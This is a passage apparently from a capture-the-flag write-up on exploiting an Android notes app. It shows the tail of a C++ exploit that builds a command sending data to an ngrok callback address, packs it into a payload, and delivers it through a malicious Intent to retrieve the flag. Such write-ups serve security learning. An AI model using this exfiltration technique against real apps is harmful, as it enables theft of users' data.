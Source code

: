 ```c++
    std::string(ngrok_pub_addr) + std::string(" ") + std::to_string(ngrok_pub_port);
ALOGI("Using command: %s", cmd.c_str());
write_string(payload, &payload_len, cmd.c_str());
```

Finally, we run our application, send the malicious the Intent, and receive the flag in our ngrok callback!

![flag](/post-resources/cryptonotes/flag.png)
